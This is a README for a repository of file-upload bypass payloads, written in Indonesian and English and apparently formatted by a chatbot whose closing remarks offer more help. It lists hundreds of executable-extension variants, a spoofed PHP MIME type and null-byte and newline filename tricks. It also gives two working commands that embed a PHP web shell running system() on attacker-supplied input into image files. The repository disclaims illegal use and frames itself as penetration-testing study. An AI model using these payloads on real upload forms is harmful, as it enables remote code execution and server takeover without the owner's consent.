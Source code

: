 ```markdown
# 📂 uploadfile-extensionbypass

**Common File Upload Bypass Payloads and Techniques**

---

## 📜 About

Repository ini berisi daftar payload dan metode untuk **bypass file upload restrictions**, termasuk extension bypass, magic number bypass, MIME type trick, hingga unrestricted file upload bypass.  
Semua data di sini ditujukan **untuk edukasi, riset keamanan, dan pengujian penetrasi di lingkungan legal**.

---

## 🔥 Extension Bypass List

Berikut adalah daftar extension file yang umum dipakai untuk bypass upload restriction:

```

file.php
file.PhTmL
file.php2
file.php3
file.php4
file.php5
file.php6
file.php7
file.phps
file.pht
file.phtm
file.phtml
file.pgif
file.shtml
file.htaccess
file.phar
file.inc
file.hphp
file.ctp
file.module
file.cgi
file.pl
file.py
file.pyc
file.pyo
file.pcgi
file.pcgi3
file.pcgi4
file.pcgi5
file.pchi6
file.Php
file.pHp
file.phP
file.PHp
file.pHP
file.PhP
file.PHP
file.PhP5
file.phar
file.PHAR
file.Phar
file.PHar
file.PHAr
file.pHAR
file.phAR
file.phaR
file.pHp5
file.phP5
file.PHp5
file.pHP5
file.PhP5
file.PHP5
file.php6
file.php7
file.php8
file.php9
file.phtml
file.Phtml
file.pHtml
file.phTml
file.pHTml
file.Fla
file.fLa
file.flA
file.FLa
file.fLA
file.FLA
file.phtMl
file.phtmL
file.PHtml
file.PhTml
file.PHTML
file.PHTml
file.PHTMl
file.PhtMl
file.PHTml
file.PHtML
file.pHTMl
file.PhTML
file.pHTML
file.PhtmL
file.PHTmL
file.PhtMl
file.PhtmL
file.pHtMl
file.PhTmL
file.pHtmL
file.aspx
file.ASPX
file.asp
file.ASP
file.php.jpg
file.PHP.JPG
file.php.xxxjpg
file.PHP.XXXJPG
file.php.jpeg
file.PHP.JPEG
file.PHP.PJEPG
file.php.pjpeg
file.php.fla
file.PHP.FLA
file.php.png
file.PHP.PNG
file.php.gif
file.PHP.GIF
file.php.test
file.php;.jpg
file.PHP JPG
file.PHP;.JPG
file.php;.jpeg
file.php jpg
file.php.bak
file.php.pdf
file.php.xxxpdf
file.php.xxxpng
file.fla
file.Fla
file.fLa
file.flA
file.FLa
file.fLA
file.FLA
file.FlA
file.php.xxxgif
file.php.xxxpjpeg
file.php.xxxjpeg
file.php3.xxxjpeg
file.php3.xxxjpg
file.php5.xxxjpg
file.php3.pjpeg
file.php5.pjpeg
file.shtml
file.php.unknown
file.php.doc
file.php.docx
file.php.ppdf
file.jpg.PhP
file.php.txt
file.php.xxxtxt
file.PHP.TXT
file.PHP.XXXTXT
file.php.xlsx
file.php.zip
file.php.xxxzip
file.php78
file.php56
file.php96
file.php69
file.php67
file.php68
file.php4
file.shtMl
file.shtmL
file.SHhtml
file.ShTml
file.SHTML
file.SHTml
file.SHTMl
file.ShtMl
file.SHTml
file.SHtML
file.sHTMl
file.ShTML
file.sHTML
file.ShtmL
file.SHTmL
file.ShtMl
file.ShtmL
file.sHtMl
file.ShTmL
file.sHtmL
file.Shtml
file.sHtml
file.shTml
file.sHTml
file.shtml
file.php1
file.php2
file.php3
file.php4
file.php10
file.suspected
file.py
file.exe
file.alfa

````

---

## ⚡ Magic Number Bypass

Contoh payload untuk menyisipkan kode PHP ke dalam file gambar menggunakan EXIF data atau metode append:

```bash
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
````

---

## 📑 MIME Type Bypass

Contoh MIME type spoofing yang bisa digunakan:

```
application/x-httpd-php
```

---

## 🎭 Unrestricted File Upload Tricks

Beberapa karakter dan trik untuk manipulasi nama file saat upload:

```
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```

---

## ⚠️ Disclaimer

> Repository ini dibuat **hanya untuk tujuan edukasi dan pembelajaran penetration testing**.
> **Penulis tidak bertanggung jawab atas penyalahgunaan informasi di dalam repository ini untuk aktivitas ilegal.**

---

## 🙌 Credits

* **Alexithema 1895**
* **Asmodeus Indonesia Security Community**

---

## 📌 Notes

✅ Gunakan hanya untuk environment lab, server pribadi, atau sistem yang Anda miliki izin akses.
🚫 Dilarang keras digunakan untuk defacing, unauthorized access, ataupun aktivitas tanpa izin.

---

**Stay safe, stay ethical, stay sharp. 🚀**

```

---

✅ **Fitur yang saya rapikan:**
- Semua extension ditulis utuh tanpa potong
- Magic Number, MIME type, unrestricted trick dibuat rapi per section
- Disclaimer & Notes jelas dan tegas
- Credits aman
- Struktur markdown clean, proper spacing
- Bahasa Indonesia formal mix Inggris biar konteks hacker culture-nya tetap dapet

Kalau mau sekalian aku bikinkan ASCII banner buat bagian atas README-nya tinggal bilang, bro 🔥 Mau?
```
